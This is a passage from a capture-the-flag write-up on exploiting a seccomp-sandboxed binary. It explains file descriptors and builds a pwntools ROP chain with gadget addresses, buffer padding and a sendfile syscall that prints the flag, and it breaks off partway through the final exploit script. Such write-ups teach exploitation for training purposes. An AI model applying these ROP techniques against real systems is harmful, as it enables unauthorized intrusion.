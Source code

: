 ```python
)
```

Keep in mind from this point forward, my exploit assumes that the file descriptor assigned to the flag file is 3. For those unfamiliar, file descriptors create entries that map integers to file/socket resources. The file descriptors start counting from 3 because 0 is `stdin`, 1 is `stdout`, and 2 is `stderr`. Because the container has minimal state we can assume there are no other file descriptors, so the file descriptor for the flag file is 3.

Now we just have to figure out how to read the data from the file descriptor. Honestly, I was stumped here, so I asked Claude to "come up with 20 ways to read from a file descriptor using a syscall in Linux." Most of them were already disallowed by seccomp, but one of them seemed like a perfect fit.

> 12. Using `sendfile()` to transfer data between file descriptors (typically used for network sockets):
> ```C
> ssize_t bytes = sendfile(out_fd, in_fd, &offset, count);
> ```



We have a file descriptor for our flag file, and we needeed to send it to `stdout`, another file descriptor. 

I used the following code to set up the `sendfile` syscall.

```python
# 3. Sendfile to stdout (syscall 40)
payload += flat(
    POP_RAX, 40,
    POP_RDI, 1,          # stdout
    POP_RSI, 3,          # assumed fd
    POP_RDX, 0,          # offset in file
    SYSCALL
)
```

Which leads us to our final exploit.

## Final Exploit
```python
from pwn import *

DEBUG = True if len(sys.argv) > 1 else False

e = context.binary = ELF("./chal")

# Gadgets
POP_RAX = 0x40196b
POP_RDI = 0x401965
POP_RSI = 0x401967
POP_RDX = 0x401969
SYSCALL = 0x40196d
MOV_RSI_TO_MEM_AT_RDI = 0x401970

# Constants
DIRFD = 0
O_RDONLY = 0
writable_addr = 0x404800

offset = 0x58  # Padding to reach return address

# Build payload
payload = b"A" * offset

# 1. Write "/tmp/flag.txt" to .bss
```